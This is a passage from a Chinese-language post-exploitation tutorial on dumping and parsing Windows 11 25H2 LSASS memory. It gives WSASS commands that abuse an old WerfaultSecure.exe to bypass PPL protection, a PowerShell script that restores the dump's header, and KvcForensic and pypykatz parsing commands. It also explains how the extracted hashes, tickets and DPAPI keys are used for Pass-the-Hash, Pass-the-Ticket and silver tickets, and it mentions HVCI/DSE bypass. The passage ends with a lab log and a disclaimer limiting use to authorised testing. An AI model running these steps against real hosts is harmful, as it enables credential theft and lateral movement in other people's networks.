KvcForensic 通过 `KvcForensic.json` 选择与目标构建号匹配的 LSA 偏移模板。本机 dump 的构建号是 `10.0.26200`，它自动选中了 `MSV_x64_11_25H2`，因此能读取出 pypykatz 失败的那部分 MSV 数据。

命令行用法：

| 命令 | 说明 |
| --- | --- |
| `KvcForensic.exe --analyze-dump --input <dump> --output <文件>` | 解析 dump 并输出报告 |
| `--format txt` / `json` / `both` | 指定输出格式 |
| `--full` | 在 TXT 中附带构建号、模块等元数据 |
| `--export-tickets <目录>` | 导出 Kerberos 票据 |
| `--compare <文件>` | 与已有结果对比 |

```powershell
# 需要在包含 KvcForensic.json 的目录下执行
.\KvcForensic.exe --analyze-dump --input C:\temp\lsass.dmp `
    --output C:\temp\result.txt --format both --full
```



实测结果：同一份 80 MB 的 25H2 dump，pypykatz 在 MSV 阶段报 `msv_exception_please_report`，而 KvcForensic 选中 `MSV_x64_11_25H2` 模板后成功读到本地账号的 `NT` Hash。这验证了“解析失败先换模板/工具”这条排查思路。

也可以直接用图形界面：打开 KvcForensic，加载 dump 后选中 `Info` 节点，右侧会显示文件大小、构建号、模块数和会话数。



从图里可以直接确认 `Build 10.0.26200`、`Modules 104`、`Sessions 10`，说明 dump 被完整识别。

#### 凭据分级与利用价值

KvcForensic 把同一登录会话下的凭据按类型挂在 `Users` 和 `Machine/Service` 节点下。按利用价值可以分成三档。

**用户凭据**

| 节点 | 内容 | 典型利用 |
| --- | --- | --- |
| `MSV` | NTLM Hash | Pass-the-Hash，无需明文即可认证 |
| `WDigest` | 明文密码 | 仅在开启 `UseLogonCredential` 时缓存 |
| `Kerberos` | TGT / TGS 票据 | Pass-the-Ticket，导出 `.kirbi` 后访问服务 |
| `DPAPI` | Master Key | 结合密码或 Hash 离线解密浏览器、凭据管理器数据 |

`MSV` 节点对应 `sekurlsa::msv` 的数据，拿到 NT Hash 后可以直接做 PtH，不必先破解：



`WDigest` 节点保存明文凭据。Win8.1/2012 R2 之后默认关闭，只有把 `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential` 设为 `1` 才可能缓存；没有开启时 `Password` 为空。



`Kerberos` 节点下的票据可以导出为 `.kirbi` 用于票据传递；`DPAPI` 节点下是 Master Key，数量和登录会话有关：



DPAPI 本身不是可直接使用的口令，需要结合该用户的明文密码或 NTLM Hash 才能解密 Master Key，再解密浏览器保存的密码、Windows 凭据管理器条目等。

**机器/服务账户**

- `[MACHINE] 计算机名$`：计算机账户。它的 Hash 可以用于伪造指向本机服务的白银票据，TGT 可以用于票据传递。
- `LOCAL SERVICE`：权限较低，主要用于判断机器上哪些服务以该身份运行。
- 机器账户下的 `DPAPI`：系统级 Master Key，可解密机器范围的凭据，例如服务账户密码、计划任务保存的凭据。


KVC 框架同时提供 PPL 操作、HVCI/DSE 绕过和驱动加载能力，因此也能处理受保护 LSASS 的场景。这类驱动级工具对系统版本、签名策略和补丁很敏感，务必在快照环境中测试，不要在生产机加载。


### 3.4.8 WSASS

WSASS 利用旧版 `WerfaultSecure.exe`（WinTcb PPL 级别）来转储受 PPL 保护的进程，不需要自己加载驱动，适合 PPL + 杀软同时开启的场景。原理、下载和完整实验步骤见 [WSASS 转储 PPL 进程](../后渗透与权限维持/WSASS转储PPL进程实战.md)。

项目地址：

```text
https://github.com/TwoSevenOneT/WSASS
```

命令格式：

```text
WSASS.exe <WerfaultSecure.exe路径> <目标PID>
```

示例：

```cmd
tasklist /fi "imagename eq lsass.exe"
WSASS.exe C:\TMP\WerfaultSecure.exe 888
```

使用步骤：

1. 使用 WSASS release 压缩包自带的旧版 `WerfaultSecure.exe`（系统自带的版本可能已经修复相关行为）；
2. 确认 LSASS 的 PID；
3. 执行 WSASS，生成 minidump；
4. WSASS 会把文件头的 `MDMP` 替换成 PNG 魔数，解析前要恢复。

恢复文件头的 PowerShell：

```powershell
$p = 'C:\temp\lsass.dmp'
$b = [IO.File]::ReadAllBytes($p)
[byte[]]$magic = 0x4D, 0x44, 0x4D, 0x50   # MDMP
for ($i = 0; $i -lt 4; $i++) { $b[$i] = $magic[$i] }
[IO.File]::WriteAllBytes($p, $b)
```

恢复后用 Pypykatz 或 KvcForensic 解析：

```cmd
python -m pypykatz lsa minidump C:\temp\lsass.dmp
```

**本机实测（25H2，Build 26200）**

WSASS 1.0 的压缩包里自带一份旧版 `WerFaultSecure.exe`，直接用它测试：

```cmd
WSASS.exe WerFaultSecure.exe <lsass_pid>
```



结果：

- `SeDebugPrivilege` 启用成功，创建了 `PROTECTION_LEVEL_WINTCB_LIGHT` 级别的 PPL 进程；
- 生成的 dump 文件名为 `proc.png`（85.9 MB），文件头被替换成 PNG 魔数，不能直接当图片打开；
- `WerfaultSecure.exe exited with code: 2147942526` 是子进程的退出码，工具仍然提示 `Process dump successfully`；
- 按上面的脚本把前 4 字节恢复为 `MDMP` 后，KvcForensic 选中 `MSV_x64_11_25H2` 模板解析成功，说明 dump 是完整的。

本机 `RunAsPPL=0`，严格来说不需要 WSASS；它更适合 LSASS 以 PPL 运行、ProcDump 打不开的场景。

### 3.4.9 工具对比

| 工具 | 依赖条件 | 适用场景 | 产出 |
| --- | --- | --- | --- |
| Mimikatz / New-Mimikatz | 需匹配目标构建号（26100/26200 偏移不同） | 交互式读取凭据、票据 | 26200 实测失败，改用 KvcForensic |
| [ProcDump](../后渗透与权限维持/ProcDump转储LSASS实战.md) | `RunAsPPL=0`，能打开 LSASS | 快速转储后离线解析 | minidump |
| [Pypykatz](../后渗透与权限维持/Pypykatz离线解析LSASS实战.md) | 已有 minidump | 跨平台离线解析 | 明文/Hash/票据 |
| [KvcForensic](../后渗透与权限维持/KvcForensic解析LSASS实战.md) | 已有 minidump；驱动级场景需 KVC | 新版本系统、受保护 LSASS | 凭据 |
| [WSASS](../后渗透与权限维持/WSASS转储PPL进程实战.md) | 旧版 `WerfaultSecure.exe` | PPL 开启、不想加载驱动 | 25H2 实测成功（本机 `RunAsPPL=0`） |

选择顺序可以简单记为：先看 `RunAsPPL`，再看 HVCI/Credential Guard，最后看杀软。防护越完整，越需要驱动级或白利用方案。

> 构建号不匹配时，即使 `RunAsPPL=0`，Mimikatz 类工具也会在 `Logon list` 阶段失败。先确认系统 Build，再选对应偏移的工具。

### 3.4.10 本机实验记录

本次在本机实际完成了：

1. 执行 3.4.2 的脚本，确认 VBS/HVCI/RunAsPPL 状态；
2. 以管理员权限运行 ProcDump，成功转储 LSASS（80 MB）；
3. 用 pypykatz 0.6.13 离线解析 dump，MSV 解析失败；
4. 用 KvcForensic 解析同一份 dump，选中 `MSV_x64_11_25H2` 模板后成功提取 MSV 数据；
5. 实测 mimikatz 2.2.0 与 New-Mimikatz，实时和 minidump 两种方式均在 `Logon list` 阶段失败；
6. 实测 WSASS 1.0，成功创建 WinTcb Light 进程并生成 `proc.png`，恢复文件头后可被 KvcForensic 解析。

::: warning 声明
本文仅用于授权的安全测试与教学环境。对非授权主机执行信息收集、凭据提取或关闭安全防护，可能违反法律法规，请勿在真实环境中滥用。
:::

## 参考

- [Mimikatz 24H2/25H2 适配分支](https://github.com/tanrikuluatahan/mimikatz)
- [Fixing Mimikatz sekurlsa::logonpasswords on Windows 11 24H2/25H2](https://medium.com/@tanrikuluatahan/fixing-mimikatz-sekurlsa-logonpasswords-on-windows-11-24h2-25h2-253e82866197)
- [KVC Framework / KvcForensic](https://kvc.pl/project-kvc)
- [WSASS](https://github.com/TwoSevenOneT/WSASS)
- [Pypykatz](https://github.com/skelsec/pypykatz)
